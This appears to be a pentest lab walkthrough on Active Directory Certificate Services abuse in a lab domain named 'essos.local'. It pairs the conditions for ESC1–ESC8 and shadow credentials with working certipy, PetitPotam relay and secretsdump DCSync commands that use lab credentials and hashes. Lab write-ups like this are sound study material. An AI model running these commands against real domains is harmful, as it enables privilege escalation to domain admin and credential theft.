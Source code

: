 # Exploits

## ESC1

> In order to abuse this misconfiguration, the following conditions must be met:
>
> * **The Enterprise CA grants low-privileged users enrollment rights**. The Enterprise CA’s configuration must permit low-privileged users the ability to request certificates. See the “Background — Certificate Enrollment” in the whitepaper paper for more details.
> * **Manager approval is disabled**. This setting necessitates that a user with certificate manager permissions review and approve the requested certificate before the certificate is issued. See the “Background — Certificate Enrollment — Issuance Requirements’ section in the whitepaper paper for more details.
> * **No authorized signatures are required**. This setting requires any CSR to be signed by an existing authorized certificate. See the “Background — Certificate Enrollment — Issuance Requirements” section in the whitepaper for more details.
> * **An overly permissive certificate template security descriptor grants certificate enrollment rights to low-privileged users**. Having certificate enrollment rights allows a low-privileged attacker to request and obtain a certificate based on the template. Enrollment rights are granted via the certificate template AD object’s security descriptor.
> * **The certificate template defines EKUs that enable authentication**. Applicable EKUs include Client Authentication (OID 1.3.6.1.5.5.7.3.2), PKINIT Client Authentication (1.3.6.1.5.2.3.4), Smart Card Logon (OID 1.3.6.1.4.1.311.20.2.2), Any Purpose (OID 2.5.29.37.0), or no EKU (SubCA).
> * **The certificate template allows requesters to specify a subjectAltName (SAN) in the CSR**. If a requester can specify the SAN in a CSR, the requester can request a certificate as anyone (e.g., a domain admin user). The certificate template’s AD object specifies if the requester can specify the SAN in its mspki-certificate-name-flag property. The mspki-certificate-name-flag property is a bitmask and if the CT\_FLAG\_ENROLLEE\_SUPPLIES\_SUBJECT flag is present, a requester can specify the SAN. This is surfaced as the “Supply in request” option in the “Subject Name” tab in certtmpl.msc.

```bash
# enumerate
certipy find -u khal.drogo@essos.local -p 'horse' -dc-ip 192.168.56.12

# query the certificate
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local

# authentication with the pfx we request before
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

## ESC2 & ESC3

### ESC2

> In order to abuse this misconfiguration, the following conditions must be met:
>
> * **The Enterprise CA grants low-privileged users enrollment rights**. Details are the same as in ESC1.
> * **Manager approval is disabled**. Details are the same as in ESC1.
> * **No authorized signatures are required**. Details are the same as in ESC1.
> * **An overly permissive certificate template security descriptor grants certificate enrollment rights to low-privileged users**. Details are the same as in ESC1.
> * **The certificate template defines Any Purpose EKUs or no EKU**.

### ESC3

In order to abuse this misconfiguration, the following conditions must be met:

> * **The Enterprise CA grants low-privileged users enrollment rights**. Details are the same as in ESC1.
> * **Manager approval is disabled**. Details are the same as in ESC1.
> * **No authorized signatures are required**. Details are the same as in ESC1.
> * **An overly permissive certificate template security descriptor grants certificate enrollment rights to low-privileged users**. Details are the same as in ESC1.
> * **The certificate template defines the Certificate Request Agent EKU**. The Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1) allows for requesting other certificate templates on behalf of other principals.
> * **Enrollment agent restrictions are not implemented on the CA**.

### Exploits

```bash
# ESC2
# query the cert
certipy req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template ESC2 -ca ESSOS-CA

# query cert with the Certificate Request Agent certificate we get before (-pfx)
certipy req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template User -ca ESSOS-CA -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx

# auth
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12


# ESC3 & ESC3-CRA
certipy req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template ESC3-CRA -ca ESSOS-CA
certipy req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template ESC3 -ca ESSOS-CA -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx
certipy auth -pfx administrator.pfx -username administrator -domain essos.local -dc-ip 192.168.56.12
```

## ESC4

> Manager Approval requirement is enabled&#x20;
>
> An Authorized Signature is required to issue certificate&#x20;
>
> Subject Name cannot be supplied in request&#x20;
>
> Set "Encrypting File System" for Certificate Application Policy Extension&#x20;
>
> But if low privileged user account has WriteDacl for this template, these restrictions can be broken, and attackers can abuse it for domain escalation.

```bash
# Take the ESC4 template and change it to be vulnerable to ESC1 technique by using the genericWrite privilege we got.
certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -save-old -debug

# Exploit ESC1 on the modified ESC4 template
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC4 -ca ESSOS-CA -upn administrator@essos.local

#     authentication with the pfx
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12

# Rollback the template configuration
certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -configuration ESC4.json
```

## ESC6

> ESC6 is when the CA specifies the **EDITF\_ATTRIBUTESUBJECTALTNAME2** flag. This flag allows the enrollee to specify an arbitrary SAN on all certificates despite a certificate template’s configuration.

```bash
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template User -ca ESSOS-CA -upn administrator@essos.local

certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

## ESC8

> In summary, if an environment has AD CS installed, along with a vulnerable web enrollment endpoint and **at least one certificate template published** that allows for domain computer enrollment and client authentication (like the default Machine template), then an attacker can compromise ANY computer with the spooler service running!

### certipy

```bash
# setup the listener :
certipy relay -ca 192.168.56.23 -template DomainController

# trig the coerce
petitpotam.py 192.168.56.1 meereen.essos.local

# we got the certificate so we can get the NT hash of the DC and also the TGT with the command :
certipy auth -pfx meereen.pfx -dc-ip 192.168.56.12 

# we can launch a DCsync with secretsdump and the ticket we get
export KRB5CCNAME=/workspace/esc8/meereen.ccache
secretsdump -k -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local

# or with the hash

secretsdump -hashes ':39d964a01c61c19fe36c71627d7ab56c' -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local
```

## Shadow Credentials

> Shadow credentials attack consist of using the **GenericAll** or **GenericWrite** privilege on a user or computer to set up the attribute **msDS-KeyCredentialLink**. This attack is very usefull when you got **Write** on another user.

> With **genericWrite** you can only do:
>
> * Target Kerberoasting : add an SPN to a user, do a kerberoasting, unset the spn. But the user password must be weak to the kerberoasting attack work.
> * Set up a logon script : change ldap parameters to set up a logon script. but it implies that the user log to his computer, an smb server or a share to offer the script and setup a script that bypass the security solutions in place)
> * Shadow credentials : the attack we want to do, we need a cetificate service on the domain

> With **GenericAll** you can :
>
> * ForceChangePassword : but on a real pentest you don’t want to block a user by changing his password.

> So if ADCS is enabled on the domain, and we got **write** privilege on **msDS-KeyCredentialLink**, we can do the shadow credentials attack to get a direct access on the user account. And this seems to be the better idea in this case on a real pentest.

```bash
certipy shadow auto -u khal.drogo@essos.local -p 'horse' -account 'viserys.targaryen'

certipy shadow auto -u viserys.targaryen@essos.local -hashes 'd96a55df6bef5e0b4d6d956088036097' -account 'jorah.mormont'
```
